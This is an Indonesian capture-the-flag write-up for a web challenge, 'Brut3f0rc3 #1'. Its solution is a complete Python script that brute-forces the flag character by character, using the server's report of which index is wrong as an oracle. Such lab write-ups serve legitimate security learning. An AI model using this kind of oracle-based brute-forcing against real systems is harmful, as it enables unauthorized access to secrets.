

# Challenge Name: Brut3f0rc3 #1


## Description

Pertama kali Bruteforce pada website ? Dicoba deh ini

## Attached Files

\-

## Solution

disini kita harus mengbrute force flag nya, dengan cara menggunakan file python

```python
import requests
import string
import re

def striphtml(data):
    p = re.compile(r'<.*?>')
    return p.sub('', data)

def generatePayload(index):
    lowerCase = string.ascii_lowercase
    number = string.digits
    simbol = "_"

    gabung = lowerCase + number + simbol
    arr = list(gabung)

    return arr[index]

def request(url, payload, indexError):
    regex = r"<b>(.*?)<\/b>"
    regexSuccess = r"Here is your flag : (.*)"

    r =  requests.get(url + payload)
    data = r.text
    getIndexError = re.findall(regex, data)
    getFlag = re.findall(regexSuccess, data)

    if len(getIndexError) > 0 and int(getIndexError[0]) == indexError:
        return True
    elif len(getFlag) > 0:
        return getFlag[0]
    else:
        return False

def exploit():
    url = "https://web.ctf.rasyidmf.com/chal16/?flag="
    payload = list("CTFR{" + 'a'*30 + "}")

    indexPayload = 0
    indexError = 5

    while True:
        payloadReq = ''.join(payload)
        requestPayload = request(url, payloadReq, indexError)

        if requestPayload:
            indexPayload = indexPayload + 1
            if indexPayload == 37:
                indexPayload = 0
        else:
            indexError = indexError + 1

        payload[indexError] = generatePayload(indexPayload)

        print(f"[~] Trying BruteForce : {payloadReq}", end="\r", flush=True)

        if type(requestPayload) == str:
            print(f"[+] Found Flag : {striphtml(requestPayload)}", end="\n", flush=True)
            break


if __name__ == '__main__':
    exploit()
```

## Screen Shoot



---

[Back to home](/CTFR/)
